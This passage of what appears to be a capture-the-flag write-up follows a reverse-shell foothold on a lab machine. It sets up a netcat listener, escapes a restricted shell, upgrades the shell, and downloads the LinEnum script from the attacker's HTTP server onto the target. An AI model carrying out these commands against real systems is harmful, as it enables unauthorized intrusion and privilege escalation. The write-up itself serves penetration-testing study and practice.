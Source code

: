 If you’re not familiar with using telnet for SMTP communication, refer to this [guide](https://docs.microsoft.com/en-us/exchange/mail-flow/test-smtp-with-telnet?view=exchserver-2019). One thing to note is the single quote we added in the MAIL FROM field and after the FROM field. This is so that the file is interpreted properly at the backend and our reverse shell runs.

Next, set up a listener to receive the reverse shell.

```text
nc -nlvp 1234
```

Then SSH into Mindy’s account so that the content of the bash\_completion directory is loaded.

```text
ssh mindy@10.10.10.51
```

We get a shell that’s no longer restricted by the rbash shell!

![](https://miro.medium.com/max/759/1*-g9cs4Y3RIcMG88e3yREnQ.png)

Let’s upgrade it to a better shell.

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session \(CTRL+ Z\) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```text
stty raw -echo
```

Once that is done, run the command “fg” to bring netcat back to the foreground.

Now we need to escalate privileges.

## Privilege Escalation <a id="866e"></a>

Let’s transfer the LinEnum script from our attack machine to the target machine.

In the attack machine, start up a server in the same directory that the script resides in.

```text
python -m SimpleHTTPServer 5555
```

In the target machine, move to the /tmp directory where we have write privileges and download the LinEnum script.

```text
cd /tmp
wget http://10.10.14.12:5555/LinEnum.sh
```

Give it execute privileges.

```text
chmod +x LinEnum.sh
```
